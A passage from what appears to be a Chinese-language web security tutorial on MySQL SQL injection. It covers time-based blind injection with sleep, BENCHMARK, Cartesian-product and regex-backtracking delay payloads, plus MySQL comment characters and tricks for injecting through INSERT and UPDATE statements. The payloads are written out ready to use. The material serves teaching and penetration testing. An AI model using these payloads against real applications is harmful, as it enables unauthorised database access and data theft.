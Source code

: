**这种注入一般出现在登录处，形成bool条件。这里只获取password的值，也可以跟多个UNION查询其他的数据，此方法优点在于不使用括号等号等字符。利用order by姿势很多，自由发挥了。**

### 1.5 延时盲注

**相对于bool盲注，就是把返回值0和1改为是否执行延时，能用其他方法就不使用延时。**
**一般格式`if((bool),sleep(3),0)`和`or (case when (bool) then sleep(3) else 0 end)`**

**两个函数：**

**`BENCHMARK(100000,MD5(1)) or sleep(5)`**

**BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()**

**如果这两个函数ban掉的话可以利用笛卡尔积造成延迟来进行注入。**

**`' and if(ascii(substr((select database()),%d,1))<%d,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B,information_schema.tables C),1)#`**

**另外还可以利用不正确的正则表达式来**

**`select if(substr((select 1)='1',1,1),concat(rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a'),rpad(1,999999,'a')) RLIKE '(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+(a.*)+b',1);`**

![sql-1](/Users/linlsec/Desktop/linlsec.github.io/images/Web安全/sql-1.png)

## 1.6 MySQL注释符：

```mysql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00
```

## 1.7 Insert&Update注入

**insert和update一般使用报错注入**

**如果没有错误回显，insert可以使用延时注入：**

**update可以使用bool盲注和延时盲注。**

**还有如果存在insert或者update,更新后的数据是可见的话,那么利用mysql中字符串在与数字进行运算的时候当作是`0`进行运算**

```mysql
mysql> select ''+1;
+------+
| ''+1 |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```
